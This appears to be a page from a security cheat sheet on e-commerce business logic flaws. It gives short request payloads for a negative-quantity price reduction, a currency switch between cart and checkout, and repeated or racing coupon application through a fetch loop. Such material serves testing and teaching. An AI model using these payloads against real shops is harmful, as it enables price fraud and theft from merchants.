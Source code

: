 
## 🏗️ Business Logic Vulnerabilities

### 💰 E-commerce Logic Flaws

#### **Price Manipulation Attacks**

**Negative Quantity Attack:**
```javascript
// Manipulate quantity to negative value
{
    "items": [
        {"id": "expensive_item", "quantity": 1, "price": 1000},
        {"id": "cheap_item", "quantity": -10, "price": 10}
    ]
}
// Total: 1000 + (-100) = 900 (should be 1100)
```

**Currency Manipulation:**
```javascript
// Change currency after price calculation
POST /api/cart/add
{
    "item_id": "laptop",
    "quantity": 1,
    "currency": "USD"  // Price calculated in USD
}

POST /api/cart/checkout
{
    "currency": "IDR"  // Change to Indonesian Rupiah (if not recalculated)
}
// $1000 USD becomes 1000 IDR (~$0.07)
```

**Coupon/Discount Abuse:**
```javascript
// Apply same coupon multiple times
POST /api/cart/apply-coupon
{
    "coupon_code": "SAVE50",
    "cart_id": "123"
}

// Race condition - multiple simultaneous requests
for (let i = 0; i < 10; i++) {
    fetch('/api/cart/apply-coupon', {
        method: 'POST',
        body: JSON.stringify({
            "coupon_code": "SAVE50",
            "cart_id": "123"
        })
    });
}
```
